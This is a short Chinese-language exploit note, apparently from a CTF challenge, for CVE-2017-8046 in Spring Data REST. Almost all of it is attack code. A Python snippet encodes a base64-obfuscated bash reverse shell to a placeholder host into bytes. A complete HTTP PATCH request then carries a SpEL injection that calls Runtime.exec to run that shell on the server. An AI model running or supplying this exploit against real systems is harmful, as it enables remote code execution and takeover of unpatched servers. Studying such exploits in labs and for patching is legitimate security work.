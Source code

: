 CVE-2017-8046
Spring-data-rest服务器在处理PATCH请求时，攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码。


Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3
Spring Boot version ≤ 2.0.0M4
Spring Data release trains < Kay-RC3
```
# 自己改弹shell的命令
payload = b'bash -c {echo,YmFzaCAtaSAmPi9kZXYvdGNwL3gueC54LngvMjMzMyA8JjE=}|{base64,-d}|{bash,-i}'

# 将payload转换为字节码字符串
bytecode = ','.join(str(i) for i in list(payload))

# 打印字节码字符串
print(bytecode)
```
```
PATCH /api/people/1 HTTP/1.1
Host: 81f61eb8-42bb-4423-824c-88573a92ebaa.challenge.ctf.show:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json-patch+json
Upgrade-Insecure-Requests: 1
Content-Length: 440

[
    {
        "op": "replace",
        "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{上面生成的一串数字}))/lastName",
        "value": "vulhub"
    }
]
```